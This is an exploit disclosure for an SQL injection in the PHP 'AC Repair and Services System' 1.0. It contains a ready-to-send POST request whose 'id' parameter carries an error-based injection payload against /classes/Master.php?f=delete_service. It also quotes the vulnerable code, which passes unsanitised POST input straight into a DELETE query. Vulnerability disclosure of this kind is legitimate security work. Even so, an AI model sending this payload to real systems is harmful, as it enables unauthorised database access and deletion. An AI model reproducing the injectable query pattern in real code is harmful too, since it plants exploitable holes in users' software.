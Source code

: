 ### Exploit Title: AC Repair and Services System - SQL injections
### Date: 2023-05/11
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php/16513/ac-repair-and-services-system-using-php-and-mysql-source-code-free-download.html
### Version: 1.0
### Tested on: macOs 13.3.1 (a) + phpstudy


# 1./classes/Master.php
/classes/Master.php SQL injection exists for parameter Section

### Sample request POC #1

```
POST /classes/Master.php?f=delete_service HTTP/1.1
Host: 10.211.55.3:8001
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 105

id='+AND+GTID_SUBSET(CONCAT(0x717a6a7071%2C(SELECT+(ELT(8125%3D8125%2C1)))%2C0x71707a7071)%2C8125)--+jKyA
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/raw/main/imgs/1683791329107.jpg "AC Repair and Services System - SQL injections")

### Related Codes /classes/Master.php
```
...
	function delete_service(){
		extract($_POST);
		$del = $this->conn->query("DELETE FROM `service_list` where id = '{$id}'");
		if($del){
			$resp['status'] = 'success';
			$this->settings->set_flashdata('success'," Service successfully deleted.");
		}else{
			$resp['status'] = 'failed';
			$resp['error'] = $this->conn->error;
		}
		return json_encode($resp);

	}
...
```
